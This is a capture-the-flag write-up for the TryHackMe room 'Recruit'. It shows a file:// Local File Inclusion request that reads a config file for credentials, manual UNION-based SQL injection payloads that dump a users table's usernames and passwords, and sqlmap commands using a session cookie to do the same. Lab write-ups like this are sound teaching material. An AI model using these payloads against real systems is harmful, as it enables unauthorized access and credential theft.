# Recruit - Writeup

Recruit is a medium-difficulty TryHackMe room focused on web application security. The objective is to obtain two flags by first gaining access as a regular user and then escalating privileges to 
compromise the administrator account.

Throughout this room, several common web vulnerabilities are explored, including Local File Inclusion (LFI) and SQL Injection. The challenge also demonstrates multiple approaches to database exploitation, 
both manually and with automated tools such as SQLMap.

## Reconnaissance

The first step was to perform an Nmap scan against the target.



+ 22/tcp - SSH 
+ 53/tcp - DNS 
+ 80/tcp - HTTP

The HTTP service hosted a login page. Beneath the login form there was an "*Access API*" option, which revealed the following message:

You can fetch a candidate CV using the following endpoint:

`/file.php?cv=<URL>`



This immediately suggested a potential *Local File Inclusion (LFI)* vulnerability, since the endpoint appeared to retrieve arbitrary files supplied by the user.

To further enumerate the web server, Gobuster was used to discover hidden directories.



The scan revealed two interesting locations:

+ /phpmyadmin
+ /mail/

The `/phpmyadmin` directory suggested that administrative database management was available on the server, while the `/mail/` directory contained valuable internal documentation.

## Information Disclosure

Browsing the `/mail/` directory revealed an internal message containing the following information:

+ HR login credentials are temporarily stored inside the application's config.php file.
+ Administrator credentials are *not* stored within the application files and instead reside inside the backend database.



This disclosure provided an excellent target for the previously identified LFI vulnerability.

Using the API endpoint, the application was instructed to retrieve the local configuration file.

`http://TARGET/file.php?cv=file://config.php`



The response returned the application's configuration, including the HR account password.

With valid credentials recovered from the configuration file, it was possible to authenticate to the dashboard as the HR user and obtain the first user flag.



## SQL Injection

While exploring the HR dashboard, the search functionality appeared to interact with the backend database.

To test for SQL Injection, a single quotation mark (`'`) was submitted as input

The application returned the following MySQL error:



This confirmed that user input was not properly sanitized.

Additionally, the error indicated that the application was likely constructing the query using a `LIKE '%INPUT%'` clause, making the search parameter vulnerable to SQL Injection.

At this point, there were three possible approaches:

+ Perform the SQL Injection manually using UNION queries.
+ Use SQLMap by supplying the authenticated session cookie.
+ Capture the authenticated HTTP request with Burp Suite and allow SQLMap to replay the request using the `-r` option.

## Manual SQL Injection

The first step was determining the number of columns returned by the query.

`' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
' ORDER BY 4#
' ORDER BY 5#`

The query failed on column five, indicating that the original query contained four columns.



Next, a UNION query was used to determine which columns were reflected in the application's response.

`' UNION SELECT 1,2,3,4#`

All four values appeared on the page, making every column suitable for displaying extracted data.

The current database name was then identified.

`' UNION SELECT 1,database(),3,4#`



Result:

`recruit_db`

Next, the available tables were enumerated.

`' UNION SELECT 1,table_name,3,4
FROM information_schema.tables
WHERE table_schema=database()#`



The application returned two tables:

+ candidates
+ users

The columns of the `users` table were then enumerated.

`' UNION SELECT 1,column_name,3,4
FROM information_schema.columns
WHERE table_name='users'
AND table_schema=database()#`



Result:

+ id
+ username
+ password

Finally, the table contents were extracted.

`' UNION SELECT id,username,password,4
FROM users#`



The administrator credentials were successfully recovered.

These credentials allowed administrative authentication and the retrieval of the second flag.



## Automated SQL Injection with SQLMap

The same attack could also be performed automatically using SQLMap.

Since the vulnerable page required authentication, the active PHP session cookie first needed to be obtained from the browser.



The available databases could then be enumerated.

`sqlmap -u "http://TARGET/dashboard.php?search=test" \
--cookie="PHPSESSID=SESSION_ID" \
--dbs`



After identifying the target database, its tables could be listed.

`sqlmap -u "http://TARGET/dashboard.php?search=test" \
--cookie="PHPSESSID=SESSION_ID" \
-D recruit_db --tables`



Finally, the contents of the `users` table could be dumped.

`sqlmap -u "http://TARGET/dashboard.php?search=test" \
--cookie="PHPSESSID=SESSION_ID" \
-D recruit_db -T users --dump`



## SQLMap Using Burp Suite

Another common workflow is to let SQLMap replay an authenticated HTTP request captured with Burp Suite.

After logging into the application:

1 - Enable Burp Suite interception.
2 - Send the vulnerable request.
3 - Locate it under HTTP History.
4 - Save the request as request.txt.

SQLMap can then replay the request directly.

`sqlmap -r request.txt`

## Conclusion

Recruit provides a practical introduction to chaining multiple web vulnerabilities during a penetration test.

The room begins with directory enumeration and information disclosure, which leads to a Local File Inclusion vulnerability that exposes application credentials. After obtaining access as a legitimate HR user, a SQL Injection vulnerability allows complete compromise of the backend database and ultimately reveals the administrator credentials.

Overall, the room reinforces the importance of thorough enumeration, understanding common web vulnerabilities, and knowing both manual and automated exploitation techniques.
